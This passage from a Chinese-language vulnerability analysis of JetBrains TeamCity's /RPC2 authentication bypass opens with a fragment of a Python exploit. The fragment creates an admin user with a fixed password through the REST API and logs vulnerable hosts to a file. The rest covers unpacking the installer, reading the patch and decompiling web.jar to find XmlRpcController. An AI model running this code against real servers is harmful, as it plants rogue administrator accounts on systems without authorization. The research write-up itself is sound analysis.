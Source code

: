 ```python
        }
        try:
            response = self.session.post(f"{self.url}/app/rest/users", headers=headers, json=creds, timeout=10)
            if response.status_code == 200:
                print(f"{Green}[+] {Yellow}{self.url}/login.html {Green}[{uname}:@H454NSec]{Color_Off}")
                with open("vulnerable.txt", "a") as o:
                    o.write(f"[{uname}:@H454NSec] {self.url}\n")
        except Exception as err:
            pass
```

## 三、漏洞分析

### 3.1 找漏洞代码位置

获取代码：将上面下载的两个 exe 文件直接使用解压工具解压，就可以得到安装后的代码文件夹

![image.png](assets/1699929434-644e663b371bb71e1658ab38bf2d3b47.png)

![image.png](assets/1699929434-cec3557cbcdccec708eda8cb2a463707.png)

补丁包里面是禁止访问/\*\*\\/RPC2 这个路径。所以就从这里下手，进行查找。

使用 java 包反编译工具：jd-gui-1.6.6.jar，将/TeamCity-2023.05.3/webapps/ROOT/WEB-INF/lib/web.jar，这个文件拖到工具中即可查看反编译看代码了。使用搜索功能查找/RPC2。定位到代码位置：jetbrains.buildServer.controllers.XmlRpcController。
